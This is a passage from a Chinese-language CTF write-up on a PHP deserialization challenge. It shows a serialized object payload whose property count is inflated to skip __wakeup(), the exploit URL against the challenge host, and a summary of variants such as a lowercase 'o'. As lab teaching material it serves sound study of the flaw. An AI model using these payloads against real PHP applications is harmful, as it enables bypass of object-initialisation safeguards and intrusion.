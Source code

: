 > 4. 将设置属性值为2，可导致反序列化异常，如下所示。  
>       ```php
>       O:4:"xctf":2:{s:4:"flag";s:3:"111";}
>       ```
> 
> 4. 根据代码中的`?code=`可得知，将得到的序列化字符串赋值给code进行传递。
> 
> 5. 访问
>       ```
>       http://111.198.29.45:34517?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
>       ```
>       得到flag，如图所示。

**总结**：
1. 执行`unserialize()`时，当序列化字符串中属性值个数大于属性个数，就会导致反序列化异常，从而跳过`__wakeup()`
2. 本题中将最前面表示对象类型的`O`改成小写`o`或者改各个长度和类型字段也行  2020.8.26.Wed


_//未完待xu_
